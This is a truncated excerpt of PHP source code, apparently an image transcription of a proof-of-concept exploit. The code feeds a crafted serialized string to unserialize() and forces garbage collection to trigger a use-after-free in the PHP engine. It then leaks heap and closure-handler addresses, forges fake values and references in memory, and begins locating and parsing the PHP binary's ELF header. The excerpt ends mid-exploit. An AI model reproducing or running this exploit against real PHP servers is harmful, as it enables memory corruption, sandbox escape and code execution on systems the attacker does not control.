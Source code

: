 ```
        var $ryat;
        var $chtg;

        function __destruct()
        {
            $this->chtg = $this->ryat;
            $this->ryat = 1;
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if you get segfaults

    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_repeat('A', 79);

    $poc = 'a:4:{i:0;i:1;i:1;a:1:{i:0;O:4:"ryat":2:{s:4:"ryat";R:3;s:4:"chtg";i:2;}}i:1;i:3;i:2;R:5;}';
    $out = unserialize($poc);
    gc_collect_cycles();

    $v = [];
    $v[0] = ptr2str(0, 79);
    unset($v);
    $abc = $out[2][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
```